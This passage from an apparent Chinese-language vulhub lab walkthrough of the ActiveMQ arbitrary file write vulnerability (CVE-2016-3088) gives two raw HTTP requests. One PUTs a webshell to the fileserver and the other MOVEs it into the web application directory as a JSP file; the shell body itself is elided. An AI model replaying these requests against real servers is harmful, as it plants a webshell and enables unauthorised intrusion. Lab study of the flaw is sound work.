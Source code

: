 ![查看 ActiveMQ 的绝对路径](./../../../../../images/vulhub/activemq/ActiveMQ%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E5%86%99%E5%85%A5%E6%BC%8F%E6%B4%9E%EF%BC%88CVE-2016-3088%EF%BC%89/%E5%86%99%E5%85%A5%20webshell/%E6%9F%A5%E7%9C%8B%20ActiveMQ%20%E7%9A%84%E7%BB%9D%E5%AF%B9%E8%B7%AF%E5%BE%84.png)

然后上传webshell：

```http
PUT /fileserver/2.txt HTTP/1.1
Host: centos.local:8161
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 120976

webshell...
```

移动到web目录下的api文件夹（/opt/activemq/webapps/api/s.jsp）中：

```http
MOVE /fileserver/2.txt HTTP/1.1
Destination: file:///opt/activemq/webapps/api/s.jsp
Host: centos.local:8161
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 0


```
